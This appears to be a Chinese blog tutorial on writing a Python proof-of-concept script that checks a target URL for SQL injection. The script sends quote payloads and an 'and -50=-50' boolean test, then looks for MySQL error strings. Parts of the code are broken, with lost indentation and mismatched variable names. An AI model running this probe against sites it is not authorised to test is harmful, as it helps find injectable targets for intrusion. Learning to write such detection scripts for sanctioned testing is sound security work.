 ```yaml
---
layout: post
title:  "如何编写SQL注入的POC"
categories: POC
tags: 漏洞 POC
author: young
---
```




* content
{:toc}








## 前言

我去年十月份挖洞挖着就挖到0day了，然后发现18年就被人提过了，内心复杂  
然后我昨晚闲着无聊，就写个poc，随缘，见一步写一步，哈哈~  
大佬轻点喷  
这里首先介绍一下什么是poc，poc就是指验证网址存在漏洞的一个py  
exp是漏洞利用  
简单的描述一下，咳咳~~  

## 正文

### 如何编写

我拿出这三个网址，来判断  
poc也只是代替一下手工的，所以我们先手工看一下sql注入的回显  

![图片1.png](https://i.loli.net/2020/03/21/rq2RGnXfBpi4csL.png)

我们可以看出，加个双引号报错了这个信息，

![图片2.png](https://i.loli.net/2020/03/21/Ki4kupdwCq5h12A.png)

## 开始编写

```python
import requests
import time
from argparse import ArgumentParser
```

首先调用这3个库  
后面会讲为什么  

## 第一步

看到上面，我们可以使用单引号，双引号来判断是否报错

```python
arg = ArgumentParser(description="test.py -u http://www.xxxx.com/news?id=1")
arg.add_argument('-u', help='target URL', dest='urls', type=str)
url = arg.parse_args()
payload = ["%27","%22"]
```

首先，我们要使用argparse模块，使用命令行来。  

这一块代码：  
> 第一句：首先是创建命令行解析器句柄，并自定义描述信息，以及如何使用。这就是脚本中的-h  
> -u ，目标的url  
> 第三~四句 是返回一个命名空间，然后我们就是单引号和双引号的一个payload检测  

## 第二步

```python
def poc():
 for payloads in payload:
 tg_host = url.urls + payloads
 test_1 = requests.get(tg_host)
 a = str(test_1.text)
 if 'mysql_fetch_row()' in a:
 if payloads == '%22':
 print('[+] The first stage test is successful!')
 print('[+] Url may be vulnerable!')
 else:
 print("[-] Payload appears to have made a mistake, or there is no vulnerability")

 tg_host = url.urls + "+and+-50%3d-50"
 scan_1 = requests.get(tg_host)
 scan_2 = requests.get(url.urls)
 text_1 = scan_1.content
 text_2 = scan_2.content
 if text_1 == text_2:
 print("[+] The second stage test is successful!")
 print('[+] Url may be vulnerable!')
 else:
 print("[-] Payload appears to have made a mistake, or there is no vulnerability")
 print("[*] URL: %s"%url.urls)
 ```

我们定义一个函数，然后使用for循环遍历payload，至于url.urls 就是调用的方法，接受用户传参

```python
print(url)
print(url.urls)
```

我们可以这样看一下，就可以看出了这2个区别。就知道怎么调用了，当然，也可以使用sys模块来.  
我们就先看一下for循环是啥  

```python
for payloads in payload:
tg_host = url.urls + payloads
test_1 = requests.get(tg_host)
a = str(test_1.text)
if 'mysql_fetch_row()' in a:
if payloads == '%22':
print('[+] The first stage test is successful!')
print('[+] Url may be vulnerable!')
else:
print("[-] Payload appears to have made a mistake, or there is no vulnerability")
```

然后就是请求传参，然后再.text，返回页面信息

![图片3.png](https://i.loli.net/2020/03/21/jofD7r5XbHzKhJA.png)

发现报错，出现了这个报错信息，和上面的那个图片一样，这样的话我们就可以使用str()强转为字符串。  
强转后再判断这个报错的函数 是否在这个返回的字符串中  
然后再if判断，当这个单/双引号判断后，就会输出 第一个阶段测试成功，如果不成功的话，就输出可能出现了错误等等，因为我英语自小就不好。所以就英汉互译下~~~  
如果网站不存在的话，也可以编码下，返回一下页面（当然，不是图片啥的），也可以直接pass掉  

## 第三步

```python
tg_host = url.urls + "+and+-50%3d-50"
scan_1 = requests.get(tg_host)
scan_2 = requests.get(url.urls)
text_1 = scan_1.content
text_2 = scan_2.content
if text_1 == text_2:
print("[+] The second stage test is successful!")
print('[+] Url may be vulnerable!')
else:
print("[-] Payload appears to have made a mistake, or there is no vulnerability")
print("[*] URL: %s"%url.urls)
```

这段代码依然如此，拼接了 and -50=-50 的编码  
然后再请求，2个，一个是拼接了 -50=-50的参数。一个是正常的url  

![图片4.png](https://i.loli.net/2020/03/21/1Alj6ixf8YMaV9s.png)

输出后就是这样，然后我们在使用content来判断 两个页面传回来的是不是也要，一样的话  
就输出那串英文。  
然后最后再把url输出  

## 第四步

```python
if __name__=='__main__':
sta = time.time()
poc()
end = time.time()
run_time = int(end - start)
Print(“漏洞探测耗时 %ss”% (int(end - start))
```

然后

```python
if name==’main‘:
```

就是程序的入口，也就是说从这边开始，调用哪个哪个  
首先设置一个开始的时间  
sta，然后再设置个结束的时候end  
然后结束的时间减掉开始的时间，就是我们执行的时间  

## 文末

这也是我昨天无聊，然后想玩一玩写的一个。大佬勿喷  
分享一个思路，poc和exp不一样  
同理来说，poc只是验证漏洞的存在。所以poc不是很难写，只是缺个思路  
（除非非常难理解的漏洞，只要理解漏洞原理就好）  
poc只是代替手工。所以可以先试下手工一下。然后再看一下如何使用代码实现的  
这是运行结果：  
（如果觉得不咋地的话，请轻点喷）  

![图片5.png](https://i.loli.net/2020/03/21/F1ROPNslXbQHJ4r.png)

![图片6.png](https://i.loli.net/2020/03/21/LBMlz37TAVthso2.png)
